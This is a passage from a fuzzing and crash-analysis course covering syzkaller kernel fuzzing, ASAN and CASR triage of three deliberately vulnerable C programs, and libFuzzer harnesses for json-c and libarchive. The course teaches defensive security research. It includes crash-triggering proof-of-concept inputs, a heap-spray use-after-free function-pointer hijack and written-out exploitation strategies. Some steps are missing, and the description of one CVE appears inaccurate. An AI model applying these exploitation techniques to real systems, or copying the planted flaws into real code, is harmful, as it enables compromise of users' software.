w3m http://127.0.0.1:56741

# Or open in regular browser: http://127.0.0.1:56741
```

**Success Criteria**:

- Kernel compiles successfully with KASAN and KCOV enabled
- VM image creates without errors
- VM boots and is accessible via SSH
- Syzkaller manager starts and shows web interface
- Web interface displays fuzzing statistics

**Expected Outputs**:

- Web interface showing: exec total, crashes, coverage, etc.
- Crashes appearing in `workdir/crashes/` directory
- Kernel oops messages in VM logs

**Troubleshooting**:

- If kernel doesn't boot: Check QEMU/KVM is enabled (`lsmod | grep kvm`)
- If syzkaller can't connect: Verify SSH key permissions (`chmod 600 trixie.id_rsa`)
- If no crashes: Let run longer - kernel fuzzing takes time
- Memory issues: Reduce VM count in config if system runs out of RAM

### Real-World Impact: Syzkaller's Contribution to Kernel Security

**Case Study - CVE-2022-32250 (Linux Netfilter Use-After-Free)**:

From Week 1, you learned about this vulnerability. Here's how syzkaller discovered it:

- **Target**: `net/netfilter/nf_tables_api.c` - Linux firewall subsystem
- **Discovery Date**: May 2022
- **Fuzzing Duration**: ~72 hours from code introduction to crash
- **Root Cause**: Reference counting error in stateful expression handling

**The Discovery Process**:

```bash

# 1. System call description for netfilter operations
{
    "nfnetlink_create": {
        "protocol": "NETLINK_NETFILTER",
        "operations": ["NFT_MSG_NEWTABLE", "NFT_MSG_NEWCHAIN", "NFT_MSG_NEWRULE"]
    }
}

# 2. Syscall sequence that triggered the bug
socket(AF_NETLINK, SOCK_RAW, NETLINK_NETFILTER)
sendmsg(fd, {
    type: NFT_MSG_NEWTABLE,
    flags: NLM_F_CREATE | NLM_F_EXCL,
    data: [table_attrs]
})
sendmsg(fd, {
    type: NFT_MSG_NEWCHAIN,
    data: [chain_with_stateful_expr]
})

# Trigger: Modify stateful expression in specific sequence
sendmsg(fd, {
    type: NFT_MSG_NEWRULE,
    data: [rule_update_that_frees_expr]
})

# Read of size 8 at addr ffff888012345678 by task syz-executor/1234
```

**Why Syzkaller Found It**:

1. **Syscall coverage**: Tests all netfilter operations systematically
2. **Sequence exploration**: Tries millions of syscall orderings
3. **State tracking**: Maintains kernel state across operations
4. **KASAN integration**: Immediate detection of memory corruption
5. **Reproducibility**: Generates C reproducer for developers

**The Reproducer** (simplified):

```c
// Generated by syzkaller - minimal reproducer
#include <sys/socket.h>
#include <linux/netlink.h>
#include <linux/netfilter/nf_tables.h>

int main(void) {
    int fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_NETFILTER);

    // Create table
    send_nft_msg(fd, NFT_MSG_NEWTABLE, ...);

    // Create chain with stateful expression
    send_nft_msg(fd, NFT_MSG_NEWCHAIN, ...);

    // Trigger UAF through rule update
    send_nft_msg(fd, NFT_MSG_NEWRULE, ...);

    return 0;
}
```

**Impact**: Local privilege escalation from any user to root on systems with unprivileged user namespaces (default on Ubuntu, Debian). Public exploit available within weeks.

**Case Study - CVE-2023-32629 (Linux Netfilter Race Condition)**:

- **Target**: `net/netfilter/nf_tables_api.c` - Same subsystem, different bug
- **Bug Class**: Race condition in batch transaction handling
- **Discovery**: Syzkaller's multi-threaded syscall fuzzing
- **Impact**: Container escape + privilege escalation

**How Syzkaller Finds Race Conditions**:

```bash

# VM 1, Thread 2 (simultaneous):
socket(AF_NETLINK, ...) → fd2
sendmsg(fd2, NFT_MSG_NEWTABLE, ...)  # Race on same table

# KASAN detects: use-after-free or memory corruption
```

**Syzkaller's Advantages for Kernel Fuzzing**:

1. **Syscall descriptions**: Domain-specific language for kernel APIs
2. **Coverage-guided**: Tracks code coverage to explore new paths
3. **Multi-threaded**: Finds race conditions naturally
4. **VM-based isolation**: Kernel crashes don't affect fuzzer
5. **Reproducers**: Automatic generation of minimal C reproducers
6. **Bisection**: Automatically finds introducing commit

**Analyzing a Syzkaller Bug**:

```bash

# Download reproducer from dashboard
mkdir -p ~/tuts/syz-repro && cd ~/tuts/syz-repro
wget "https://syzkaller.appspot.com/text?tag=ReproC&x=15ad9542580000" -O repro.c

# Analyze how it got identified:
https://syzkaller.appspot.com/bug?extid=77026564530dbc29b854
```

**Key Insight**: Kernel attack surface is massive. Syzkaller's systematic approach finds bugs that would take years of manual testing.

### Key Takeaways

1. **Syzkaller revolutionized kernel security**: Found 4,500+ bugs that manual testing missed
2. **Syscall fuzzing requires domain knowledge**: Must understand kernel APIs to fuzz effectively
3. **Race conditions need parallel execution**: Multi-threaded fuzzing essential
4. **VM isolation is critical**: Kernel crashes would kill the fuzzer otherwise
5. **Reproducers enable fixing**: Minimal C programs allow developers to debug quickly

### Discussion Questions

1. Why has syzkaller found thousands of kernel bugs that years of production use didn't reveal?
2. How does syzkaller's syscall description language enable effective kernel fuzzing?
3. What makes race condition detection particularly valuable in kernel fuzzing?
4. Why are networking subsystems (netfilter, inet) the most frequent sources of vulnerabilities?
5. How do user namespaces make kernel vulnerabilities more dangerous by increasing exploitability?

## Day 6: Crash Analysis and Exploitability Assessment

- **Goal**: Understand crash triage, root cause analysis, and exploitability assessment for fuzzer-discovered bugs.
- **Activities**:
  - _Reading_:
    - "Fuzzing for Software Security Testing and Quality Assurance" by Ari Takanen (Sections 6.1 to 6.6.6)
    - "The Art of Software Security Assessment" Chapter 5 and 6
  - _Online Resources_:
    - [AddressSanitizer Documentation](https://clang.llvm.org/docs/AddressSanitizer.html)
    - [CASR - Crash Analysis and Severity Report](https://github.com/ispras/casr/blob/master/docs/usage.md)
    - [OSS-Fuzz Guide](https://google.github.io/oss-fuzz/advanced-topics/reproducing/)
  - _Real-World Context_:
    - [Exploitability Ratings](https://www.cisa.gov/known-exploited-vulnerabilities)
    - [Crash Accumulation During Fuzzing with CASR](https://sydr-fuzz.github.io/papers/crash-accumulation.pdf)
    - [Effective Fuzzing Harness](https://srlabs.de/blog/unlocking-secrets-effective-fuzzing-harness)
  - _Concepts_:
    - Crash deduplication and bucketing
    - Root cause analysis from stack traces
    - Exploitability classification
    - ASAN report interpretation
    - Building proof-of-concept exploits

# Install crash analysis toolkit
sudo apt update
sudo apt install -y gdb python3-pip valgrind binutils

# Install GEF (GDB Enhanced Features) - if you haven't done so already
#wget -O ~/.gdbinit-gef.py -q https://gef.blah.cat/py
#echo "source ~/.gdbinit-gef.py" >> ~/.gdbinit

# Install CASR (Crash Analysis and Severity Report) and rust if you haven't already
#curl --proto '=https' --tlsv1.2 -sSf "https://sh.rustup.rs" | sh
#source ~/.cargo/env
cargo install casr

### Case Study 1: Analyzing Heap Buffer Overflow

**Scenario**: Fuzzing discovered a crash in an image parser. Let's perform complete analysis.

```bash

# Create sample vulnerable image parser
mkdir -p ~/crash_analysis/case1_heap_overflow && cd ~/crash_analysis/case1_heap_overflow

cat > vuln_parser.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void build_huffman_table(uint8_t *input, size_t size) {
    if (size < 8) return;

    uint32_t table_size = *(uint32_t*)input;
    uint8_t *codes = input + 4;

    uint8_t *table = malloc(256);

    // VULNERABILITY: No bounds check on table_size
    // Can write beyond 256-byte buffer
    memcpy(table, codes, table_size);  // Heap buffer overflow!

    printf("Built Huffman table with %u codes\n", table_size);

    free(table);
}

int main(int argc, char **argv) {
    if (argc < 2) return 1;

    FILE *f = fopen(argv[1], "rb");
    if (!f) return 1;

    fseek(f, 0, SEEK_END);
    size_t size = ftell(f);
    fseek(f, 0, SEEK_SET);

    uint8_t *data = malloc(size);
    fread(data, 1, size, f);
    fclose(f);

    build_huffman_table(data, size);

    free(data);
    return 0;
}
EOF

# Compile with ASAN for detailed crash reports
clang-19 -g -O0 -fsanitize=address -o vuln_parser_asan vuln_parser.c

# Create crashing input (table_size = 512, overflows 256-byte buffer)
python3 << 'EOF'
import struct

# table_size = 512 (causes 256-byte overflow)
payload = struct.pack('<I', 512)
payload += b'A' * 512
with open('crash_heap_overflow.bin', 'wb') as f:
    f.write(payload)
EOF

# Run and capture ASAN output
./vuln_parser_asan crash_heap_overflow.bin 2>&1 | tee asan_crash.log
```

**ASAN Output Analysis**:

```
==37160==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x511000000140 at pc 0x56d6a37d0f62 bp 0x7ffd9f024440 sp 0x7ffd9f023c00
WRITE of size 512 at 0x511000000140 thread T0
    #0 0x56d6a37d0f61 in __asan_memcpy
    #1 0x56d6a38147f5 in build_huffman_table vuln_parser.c:16:5
    #2 0x56d6a38148fe in main vuln_parser.c:37:5

0x511000000140 is located 0 bytes after 256-byte region [0x511000000040,0x511000000140)
allocated by thread T0 here:
    #0 0x56d6a37d3193 in malloc (vuln_parser_asan+0xcc193) (BuildId: e524ec295f274ddf6e407b3941080060bdfc9d1c)
    #1 0x56d6a38147df in build_huffman_table vuln_parser.c:12:22
    #2 0x56d6a38148fe in main vuln_parser.c:37:5

SUMMARY: AddressSanitizer: heap-buffer-overflow (vuln_parser_asan+0xc9f61) (BuildId: e524ec295f274ddf6e407b3941080060bdfc9d1c) in __asan_memcpy
Shadow bytes around the buggy address:
  0x510ffffffe80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x510fffffff00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x510fffffff80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x511000000000: fa fa fa fa fa fa fa fa 00 00 00 00 00 00 00 00
  0x511000000080: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x511000000100: 00 00 00 00 00 00 00 00[fa]fa fa fa fa fa fa fa
```

**Interpreting the ASAN Report**:

1. **Bug Type**: `heap-buffer-overflow`
2. **Operation**: WRITE of size 512
3. **Location**: `vuln_parser.c:16` in `build_huffman_table()`
4. **Allocation**: 256-byte buffer at line 12
5. **Overflow**: Writing 512 bytes into 256-byte buffer = 256 bytes overflow

**Root Cause Analysis**:

```bash

#    16      memcpy(table, codes, table_size);         // Copies attacker-controlled amount!
```

**Exploitability Assessment**:

```bash

# Classify crash automatically with CASR (using the ASAN run you captured above)
#casr-san -o heap_overflow.casrep -- ./vuln_parser_asan crash_heap_overflow.bin 2>&1 | tee casr_heap_overflow.log
casr-san --stdout -- ./vuln_parser_asan crash_heap_overflow.bin | tee heap_overflow.casrep

# You can still use GDB for manual inspection of the corrupted heap if you want:
gdb ./vuln_parser_asan
(gdb) run crash_heap_overflow.bin
```

**Exploitability Classification**: **EXPLOITABLE**

**Reasoning**:

1. **Attacker controls overflow size**: `table_size` from input
2. **Attacker controls overflow data**: `codes` array content
3. **Heap corruption possible**: Can overwrite adjacent objects
4. **Exploitation path**:
   - Overflow into adjacent heap object
   - Corrupt function pointer or vtable
   - Hijack control flow
   - Execute arbitrary code

**Real-World Example**: Similar to CVE-2023-4863 (libWebP Heap Buffer Overflow) from Week 1.

### Case Study 2: Use-After-Free Analysis

```bash
mkdir -p ~/crash_analysis/case2_uaf && cd ~/crash_analysis/case2_uaf

cat > vuln_uaf.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char *name;
    void (*process)(void);
} Handler;

void default_handler(void) {
    printf("Default handler\n");
}

void evil_handler(void) {
    printf("Evil handler executed! Code execution via UAF.\n");
}

Handler *handler = NULL;

void register_handler(char *name) {
    handler = malloc(sizeof(Handler));
    handler->name = strdup(name);
    handler->process = default_handler;
}

void unregister_handler(void) {
    if (handler) {
        free(handler->name);
        free(handler);
        // BUG: Should set handler = NULL here!
    }
}

void attacker_groom_heap(void) {
    for (int i = 0; i < 1000; i++) {
        Handler *fake = malloc(sizeof(Handler));
        fake->name = "pwned";
        fake->process = evil_handler;
    }
}

void call_handler(void) {
    if (handler) {
        handler->process();
    }
}

int main(int argc, char **argv) {
    register_handler("test");
    unregister_handler();
    attacker_groom_heap();
    call_handler();

    return 0;
}
EOF

# Run and capture output
./vuln_uaf_asan 2>&1 | tee uaf_crash.log
```

**ASAN Output**:

```
=================================================================
==38664==ERROR: AddressSanitizer: heap-use-after-free on address 0x502000000010 at pc 0x617b2245a953 bp 0x7ffe92f7c160 sp 0x7ffe92f7c158
READ of size 8 at 0x502000000010 thread T0
    #0 0x617b2245a952 in call_handler vuln_uaf.c:44:50
    #1 0x617b2245a9d0 in main vuln_uaf.c:53:5

0x502000000010 is located 0 bytes inside of 16-byte region [0x502000000010,0x502000000020)
freed by thread T0 here:
    #1 0x617b2245a86a in unregister_handler vuln_uaf.c:29:9
    #2 0x617b2245a9c6 in main vuln_uaf.c:51:5

previously allocated by thread T0 here:
    #1 0x617b2245a7a5 in register_handler vuln_uaf.c:21:15
    #2 0x617b2245a9c1 in main vuln_uaf.c:50:5

SUMMARY: AddressSanitizer: heap-use-after-free vuln_uaf.c:44:50 in call_handler
Shadow bytes around the buggy address:
  0x501ffffffd80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501ffffffe00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501ffffffe80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501fffffff00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501fffffff80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x502000000000: fa fa[fd]fd fa fa fd fa fa fa 00 00 fa fa 00 00
```

**Exploitability Assessment**:

```bash

# Classify crash with CASR again (now for a UAF instead of overflow)
casr-san --stdout -- ./vuln_uaf_asan 2>&1 | tee uaf.casrep

# Otherwise, malloc() will return a new address, and handler->process will still be old/garbage.
export ASAN_OPTIONS=detect_leaks=0:quarantine_size_mb=0

gdb ./vuln_uaf_asan
(gdb) break vuln_uaf.c:44   # Break at call_handler (before crash)
(gdb) run
(gdb) p handler

# Execution should flow to evil_handler() (or crash if ASan still catches the shadow marker)

```

**Exploitability Classification**: **EXPLOITABLE** (Verified via manual analysis)

> [!NOTE]: Automated tools like CASR may label this `NOT_EXPLOITABLE` because ASan instruments the function pointer _read_ before the call. Manual verification (as shown above) proves control flow hijack is possible.

**Exploitation Strategy**:

1. **Heap grooming**: Allocate/free to position objects
2. **Reclaim freed memory**: Allocate object of same size (requires bypassing ASan quarantine in lab)
3. **Control freed memory contents**: Fill with attacker data
4. **Trigger UAF**: Call `call_handler()`
5. **Function pointer hijack**: `handler->process` points to attacker-controlled address
6. **Result**: Arbitrary code execution

**Real-World Example**: Similar to CVE-2024-2883 (Chrome ANGLE UAF) from Week 1.

### Case Study 3: Integer Overflow Leading to Heap Corruption

```bash
mkdir -p ~/crash_analysis/case3_integer_overflow && cd ~/crash_analysis/case3_integer_overflow

cat > vuln_intoverflow.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void process_image(uint32_t width, uint32_t height, uint8_t *data) {
    size_t pixel_count = width * height;
    size_t buffer_size = pixel_count * 4;

    printf("Allocating %zu bytes for %ux%u image\n", buffer_size, width, height);

    uint8_t *buffer = malloc(buffer_size);

    for (size_t i = 0; i < (size_t)width * height; i++) {
        // WRITES out of bounds immediately
        // Use modulo to avoid reading out of bounds of 'data'
        buffer[i * 4] = data[i % 1024];
    }

    free(buffer);
}

int main(int argc, char **argv) {
    // Attacker-controlled dimensions
    uint32_t width = 0x10000;   // 65536
    uint32_t height = 0x10000;  // 65536

    uint8_t fake_data[1024];
    memset(fake_data, 'A', sizeof(fake_data));

    process_image(width, height, fake_data);

    return 0;
}
EOF

# Compile with ASAN and UBSAN
clang-19 -g -O0 -fsanitize=address,unsigned-integer-overflow -o vuln_int_asan vuln_intoverflow.c

# Run
./vuln_int_asan 2>&1 | tee intoverflow_crash.log
```

**Analysis**:

```
vuln_intoverflow.c:7:32: runtime error: unsigned integer overflow: 65536 * 65536 cannot be represented in type 'uint32_t' (aka 'unsigned int')
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior vuln_intoverflow.c:7:32
=================================================================
==39011==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x502000000014 at pc 0x5fa5104bd933 bp 0x7ffd7d3885a0 sp 0x7ffd7d388598
WRITE of size 1 at 0x502000000014 thread T0
    #0 0x5fa5104bd932 in process_image vuln_intoverflow.c:17:23
    #1 0x5fa5104bdad0 in main vuln_intoverflow.c:31:5

0x502000000014 is located 3 bytes after 1-byte region [0x502000000010,0x502000000011)
allocated by thread T0 here:
    #1 0x5fa5104bd7fc in process_image vuln_intoverflow.c:12:23

SUMMARY: AddressSanitizer: heap-buffer-overflow vuln_intoverflow.c:17:23 in process_image
Shadow bytes around the buggy address:
  0x501ffffffd80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501ffffffe00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501ffffffe80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501fffffff00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501fffffff80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x502000000000: fa fa[01]fa fa fa fa fa fa fa fa fa fa fa fa fa

```

**Root Cause**:

1. **Integer Overflow**: `width * height` overflows 32-bit integer range, wrapping to 0.
2. **Under-allocation**: `malloc(0)` allocates a tiny chunk.
3. **Logic Mismatch**: Loop uses proper 64-bit bounds (or nested loops), iterating 4 billion times.
4. **Heap Corruption**: Loop writes far beyond the allocated chunk.

**Exploitability Assessment**:

```bash

# Note: UBSAN might print an error first, but ASAN catches the memory corruption
casr-san --stdout -- ./vuln_int_asan 2>&1 | tee intoverflow.casrep

# Verify manually in GDB:
gdb ./vuln_int_asan
(gdb) break vuln_intoverflow.c:17   # Break inside the loop
(gdb) run
(gdb) p buffer_size

# Watch the write to buffer[0] corrupting the heap
(gdb) continue
```

**Exploitability Classification**: **EXPLOITABLE**

**Exploitation Strategy**:

1. **Heap Grooming**: Allocate a sensitive object (e.g., a structure with a function pointer) immediately after the vulnerable 0-byte allocation.
2. **Trigger Overflow**: Send input with dimensions `0x10000 * 0x10000` to cause integer overflow -> `malloc(0)`.
3. **Overwrite**: The loop writes attacker data (`fake_data`) into the adjacent sensitive object.
4. **Hijack**: Trigger the use of the corrupted object (e.g., call the function pointer).

#### Heap Overflow Example

```bash
cd ~/crash_analysis/case1_heap_overflow
cat > buf_ov.py << 'EOF'
#!/usr/bin/env python3

# POC for heap buffer overflow in vuln_parser

import struct

def craft_overflow_input():
    """Create input that causes a massive overflow"""
    # Target allocates 256 bytes. We claim size is 512.
    table_size = 512

    # Structure: [Size (4 bytes)] [Data (512 bytes)]
    payload = struct.pack('<I', table_size)
    payload += b'A' * table_size

    return payload

with open('poc_exploit.bin', 'wb') as f:
    f.write(craft_overflow_input())

print("[+] Created poc_exploit.bin")
print("[+] Run the ASan build for diagnostics or the no-sanitizer build for raw exploitation.")
EOF
python3 buf_ov.py

# Diagnostic run (shows detailed ASan report)
./vuln_parser_asan poc_exploit.bin

# Realistic exploit run (no sanitizers, glibc notices corrupted heap metadata)
clang-19 -g -O0 -o vuln_parser_nosan vuln_parser.c
MALLOC_CHECK_=0 ./vuln_parser_nosan poc_exploit.bin
```

# Build a runtime version without sanitizers (ensures freed chunks are reused immediately)
clang-19 -g -O0 -o vuln_uaf_nosan vuln_uaf.c

# Execute the no-sanitizer build to watch the hijacked handler fire
./vuln_uaf_nosan
```

Expected console output:

```
Evil handler executed! Code execution via UAF.
```

To force an outright crash (showing instruction-pointer control), change the spray in `attacker_groom_heap()` to:

```c
fake->process = (void (*)(void))0x4141414141414141ULL;
```

Running `./vuln_uaf_nosan` now ends with a segfault at `0x4141414141414141`, demonstrating control-flow hijack without AddressSanitizer interfering.

### Key Takeaways

1. **Sanitized vs non-sanitized builds**: Use ASan/UBSan/KASAN builds for **triage and root-cause**, then switch to **no-sanitizer builds** (with knobs like `ASAN_OPTIONS` or `MALLOC_CHECK_`) to study realistic heap behavior and exploitation.
2. **Automated ratings are heuristics**: CASR’s `Type`/`Severity` fields are a **starting point only**; Case Study 2 showed a UAF rated `NOT_EXPLOITABLE` even though a function pointer hijack is clearly possible.
3. **Crash location vs root cause**: Tools often stop at the **first invalid access** (e.g., a read from freed memory) while the real exploit primitive (e.g., control-flow hijack) may be one instruction later.
4. **Exploitability hinges on control**: In all three case studies, exploitation becomes realistic when the attacker controls **sizes (length, dimensions) and data** that drive allocation and memory writes.
5. **Systematic PoC development**: The path is always _fuzz → crash → triage (ASan + CASR) → root cause → minimal reproducer → exploit PoC (heap metadata or function pointer overwrite)_.

### Discussion Questions

1. In your own workflow, when would you prefer to keep AddressSanitizer enabled, and when would you switch to a no-sanitizer build while evaluating exploitability?
2. How could CASR’s `NOT_EXPLOITABLE` rating for the UAF case mislead a less experienced analyst, and what manual checks (in GDB) prevent that mistake?
3. In the integer-overflow case, which variables and addresses would you inspect in GDB to confirm both under-allocation and the ensuing heap overwrite?
4. How does the exact crash site (e.g., first invalid read vs later jump through a corrupted function pointer) change your assessment of exploitability and which tools notice it?
5. How do modern mitigations (ASLR, DEP, hardened allocators, CFI) interact with the exploitation strategies you used in Case Studies 1–3, and what extra steps would be needed in a real target?

#### Blog Posts and Case Studies

- [Leveling Up Fuzzing: Finding more vulnerabilities with AI ](https://security.googleblog.com/2024/11/leveling-up-fuzzing-finding-more.html)
- [AFL Success Stories](https://lcamtuf.blogspot.com/2014/11/afl-fuzz-nobody-expects-cdata-sections.html)
- [5 CVEs Found with Feedback-Based Fuzzing](https://www.code-intelligence.com/blog/5-cves-found-with-feedback-based-fuzzing)
- [Syzkaller: Finding Bugs in the Linux Kernel](https://lwn.net/Articles/677764/)
- [OpenSSL Fuzzing Guide](https://www.openssl.org/docs/man3.3/man7/ossl-guide-fuzzing.html)
- [Slice: SAST + LLM Interprocedural Context Extractor](https://noperator.dev/posts/slice/) - Using build-free CodeQL + Tree-Sitter + GPT‑5 to triage ~1700 static UAF candidates in the Linux kernel down to a single real bug (CVE-2025-37778), a good complement to fuzzing-based crash triage.

#### Practice Targets

- [Fuzzing-Module](https://github.com/alex-maleno/Fuzzing-Module) - Learning exercises
- [Damn Vulnerable C Program](https://github.com/hardik05/Damn_Vulnerable_C_Program) - Vulnerable code for practice

## Day 7: Fuzzing Harness Development and Real-World Campaigns

- **Goal**: Learn to write effective fuzzing harnesses and understand real-world fuzzing campaigns.
- **Activities**:
  - _Reading_:
    - [libFuzzer Tutorial](https://github.com/google/fuzzing/blob/master/tutorial/libFuzzerTutorial.md)
    - [OSS-Fuzz Integration Guide](https://google.github.io/oss-fuzz/getting-started/new-project-guide/)
  - _Online Resources_:
    - [Fuzzing Harness Examples](https://github.com/google/fuzzing/tree/master/tutorial)
    - [ClusterFuzz](https://google.github.io/clusterfuzz/) - Continuous fuzzing infrastructure
  - _Concepts_:
    - Harness design principles
    - In-process vs out-of-process fuzzing
    - Persistent mode optimization
    - Seed corpus curation
    - Continuous fuzzing integration

### What is a Fuzzing Harness?

A fuzzing harness is the code that:

1. Receives fuzzer-generated input
2. Prepares that input for the target API
3. Calls the target functionality
4. Handles errors/cleanup

**Example - Bad Harness vs Good Harness**:

```cpp
// BAD HARNESS: Slow, inefficient
int main(int argc, char **argv) {
    FILE *f = fopen(argv[1], "rb");  // File I/O every iteration!
    // ... read file ...
    // ... call target API ...
    fclose(f);
    return 0;
}

// GOOD HARNESS: Fast, in-process
extern "C" int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    // Direct memory buffer, no I/O
    // Called thousands of times per second in same process
    target_api(data, size);
    return 0;
}
```

### Case Study: Writing Harness for JSON Parser

**Target**: json-c library (real-world JSON parser)

```bash
mkdir -p ~/harness_dev && cd ~/harness_dev && mkdir json_harness && cd json_harness

# Clone json-c
git clone --depth 1 https://github.com/json-c/json-c.git

cd ~/harness_dev/json_harness/json-c
export CC=clang-19
export CXX=clang++-19
export CFLAGS="-fno-sanitize-coverage=trace-cmp -fsanitize=fuzzer-no-link,address -g -O1"
export CXXFLAGS="-fno-sanitize-coverage=trace-cmp -fsanitize=fuzzer-no-link,address -g -O1"
cmake -DBUILD_SHARED_LIBS=OFF ./
make -j$(nproc)

cd ~/harness_dev/json_harness

# Create fuzzing harness
cat > fuzz_parse.c << 'EOF'
#include <json-c/json.h>
#include <stdint.h>
#include <stddef.h>

int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    const char *data1 = (const char *)data;
    json_tokener *tok = json_tokener_new();
    json_object *obj = json_tokener_parse_ex(tok, data1, size);

    if (obj) {
        // Exercise different API functions to increase coverage
        json_object_to_json_string_ext(obj, JSON_C_TO_STRING_PRETTY | JSON_C_TO_STRING_SPACED);

        if (json_object_is_type(obj, json_type_object)) {
            json_object_object_foreach(obj, key, val) {
                (void)json_object_get_type(val);
                (void)json_object_get_string(val);
            }
        }

        if (json_object_is_type(obj, json_type_array)) {
            size_t len = json_object_array_length(obj);
            for (size_t i = 0; i < len; i++) {
                json_object_array_get_idx(obj, i);
            }
        }

        json_object_put(obj);
    }

    json_tokener_free(tok);
    return 0;
}
EOF

# Compile with libFuzzer
clang-19 -g -fsanitize=address,fuzzer \
    -fno-sanitize-coverage=trace-cmp \
    -I. -Ijson-c \
    fuzz_parse.c \
    json-c/libjson-c.a \
    -o fuzz_json

# Create seed corpus
mkdir -p corpus
cat > corpus/valid1.json << 'EOF'
{"name": "test", "value": 42}
EOF

cat > corpus/valid2.json << 'EOF'
[1, 2, 3, {"nested": "object"}]
EOF

cat > corpus/valid3.json << 'EOF'
{
    "string": "value",
    "number": 123,
    "boolean": true,
    "null": null,
    "array": [1, 2, 3],
    "object": {"key": "value"}
}
EOF

# Run libFuzzer, it might take a while to actually crash
./fuzz_json corpus/ -max_total_time=300 -print_final_stats=1 -max_len=10000
```

#### Harness Design Principles Applied

1. **In-process execution**: `LLVMFuzzerTestOneInput` - no fork/exec overhead
2. **Direct API targeting**: Calls `json_tokener_parse_ex` directly
3. **Coverage maximization**: Exercises multiple code paths (objects, arrays, serialization)
4. **Proper cleanup**: Frees allocated memory to avoid OOM
5. **Sanitizer-friendly**: Works with ASAN/UBSAN for bug detection

### Case Study: Fuzzing Archive Extractors

While CVE-2023-38831 was in closed-source WinRAR, let's fuzz open-source alternatives with similar architectures.

```bash
cd ~/harness_dev && mkdir archive_campaign && cd archive_campaign

# Target: libarchive (used by many archive tools)
git clone --depth 1 --branch v3.5.1 https://github.com/libarchive/libarchive.git
cd ~/harness_dev/archive_campaign/libarchive

export CC=clang-19
export CXX=clang++-19
export CFLAGS="-fno-sanitize-coverage=trace-cmp -fsanitize=fuzzer-no-link,undefined,address -g -O1"
export CXXFLAGS="-fno-sanitize-coverage=trace-cmp -fsanitize=fuzzer-no-link,undefined,address -g -O1"

cmake -DENABLE_TEST=OFF .
make -j$(nproc)

cd ~/harness_dev/archive_campaign/

cat > fuzz_archive_read.c << 'EOF'
#include "archive.h"
#include "archive_entry.h"
#include <stdint.h>
#include <stddef.h>
#include <stdlib.h>

int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    struct archive *a;
    struct archive_entry *entry;
    int r;

    a = archive_read_new();
    if (!a) return 0;

    archive_read_support_filter_all(a);
    archive_read_support_format_all(a);

    r = archive_read_open_memory(a, data, size);
    if (r != ARCHIVE_OK) {
        archive_read_free(a);
        return 0;
    }

    while (archive_read_next_header(a, &entry) == ARCHIVE_OK) {
        const char *name = archive_entry_pathname(entry);
        int64_t size = archive_entry_size(entry);
        mode_t mode = archive_entry_mode(entry);
        time_t mtime = archive_entry_mtime(entry);

        const char *linkname = archive_entry_symlink(entry);
        const char *hardlink = archive_entry_hardlink(entry);

        const void *buff;
        size_t read_size;
        int64_t offset;
        while (archive_read_data_block(a, &buff, &read_size, &offset) == ARCHIVE_OK) {
            // Just consume data, no processing needed
        }
    }

    archive_read_free(a);
    return 0;
}
EOF

# Compile harness
clang-19 -g -O1 -fsanitize=address,undefined,fuzzer \
    -fno-sanitize-coverage=trace-cmp \
    -I./libarchive/libarchive \
    fuzz_archive_read.c -o fuzz_archive \
    libarchive/libarchive/libarchive.a \
    -lz -llzma -lzstd -lxml2 -lcrypto -ldl -lpthread

# ZIP
echo "Test file" > /tmp/test.txt
zip corpus_archive/sample.zip /tmp/test.txt

# RAR (if available)
rar a corpus_archive/sample.rar /tmp/test.txt 2>/dev/null || true

# Archive with symlink (common bug location)
ln -sf /etc/passwd /tmp/symlink_test
tar czf corpus_archive/with_symlink.tar.gz /tmp/symlink_test 2>/dev/null || true

# Run fuzzing campaign
./fuzz_archive corpus_archive/ \
    -max_total_time=3600 \
    -timeout=30 \
    -rss_limit_mb=2048 \
    -print_final_stats=1
```

**What This Campaign Targets**:

1. **Format parsing bugs**: TAR, ZIP, RAR, 7z, etc.
2. **Compression algorithms**: gzip, bzip2, lzma, zstd
3. **Path traversal**: Symlink/hardlink handling (like CVE-2023-38831)
4. **Metadata parsing**: Timestamps, permissions, extended attributes
5. **Memory corruption**: Buffer overflows in decompression routines

**Expected Findings** (based on real OSS-Fuzz results):

- Integer overflows in size calculations
- Path traversal via symlinks
- Buffer overflows in compression codecs
- Use-after-free in error handling paths

### Key Takeaways

1. **Harness Design is Critical**: Efficient harnesses (in-process, persistent) significantly outperform naive `fork()/exec()` wrappers.
2. **Target Logic, Not Just I/O**: Good harnesses bypass CLI parsing to exercise core API logic directly (e.g., `json_tokener_parse_ex`).
3. **Seed Corpus Quality**: A diverse, minimized corpus of valid inputs accelerates code coverage discovery.
4. **Sanitizers Enable Detection**: Memory bugs (ASAN) and undefined behavior (UBSAN) are only found if the harness is compiled with them.
5. **Continuous Integration**: Tools like OSS-Fuzz automate the "find → fix → verify" loop, preventing regressions in evolved code.

### Discussion Questions

1. Why is an in-process harness (like `LLVMFuzzerTestOneInput`) orders of magnitude faster than a file-based CLI wrapper?
2. How does defining a proper seed corpus (e.g., valid JSON/ZIP files) help the fuzzer penetrate deeper into the target's logic?
